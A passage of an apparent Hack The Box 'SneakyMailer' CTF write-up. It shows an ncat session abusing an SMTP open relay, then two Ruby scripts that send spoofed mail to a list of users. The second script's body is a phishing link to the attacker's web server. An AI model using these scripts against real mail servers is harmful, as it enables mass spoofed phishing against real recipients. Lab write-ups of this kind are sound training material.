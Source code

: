 I seems the SMTP server is vulnerable to open relay:

> An SMTP server that works as an open relay, is a email server that does not verify if the user is authorised to send email from the specified email address. Therefore, users would be able to send email originating from any third-party email address that they want.

```
$ ncat sneakycorp.htb 25
MA220 debian ESMTP Postfix (Debian/GNU)
MAIL from:cyfun@sneakymailer.htb
250 2.1.0 Ok
RCPT to:tigernixon@sneakymailer.htb
250 2.1.5 Ok
DATA
354 End data with <CR><LF>.<CR><LF>
hello open relay
.
250 2.0.0 Ok: queued as 4773E25011
```

I wrote a script to abuse of SMTP open relay and send a test email to all users:

```ruby
#!/usr/bin/env ruby

require 'socket'

users = File.read('emails.txt').split("\n")

@s = TCPSocket.new('sneakycorp.htb', 25)
@banner = @s.recv(1024).chomp
users.each do |user|
  @s.send "MAIL from:cyfun@sneakymailer.htb \n\r", 0
  @s.send "RCPT to:#{user} \n\r", 0
  @s.send "DATA \n\r", 0
  @s.send "test \r\n.\r\n", 0
  resp = @s.recv(1024).chomp
  puts resp
end
@s.close

puts "[*] Result:-"
puts "[+] Banner: " + @banner
```

Let's change the email body content, replacing test by phishing content
like a link to our web server and hope one of the users will click it.

```ruby
#!/usr/bin/env ruby

require 'socket'

users = File.read('emails.txt').split("\n")

@s = TCPSocket.new('sneakycorp.htb', 25)
@banner = @s.recv(1024).chomp
users.each do |user|
  @s.send "MAIL from:cyfun@sneakymailer.htb \n\r", 0
  @s.send "RCPT to:#{user} \n\r", 0
  @s.send "DATA \n\r", 0
  @s.send "http://10.10.14.142:8080 \r\n.\r\n", 0
  resp = @s.recv(1024).chomp
  puts resp
end
@s.close

```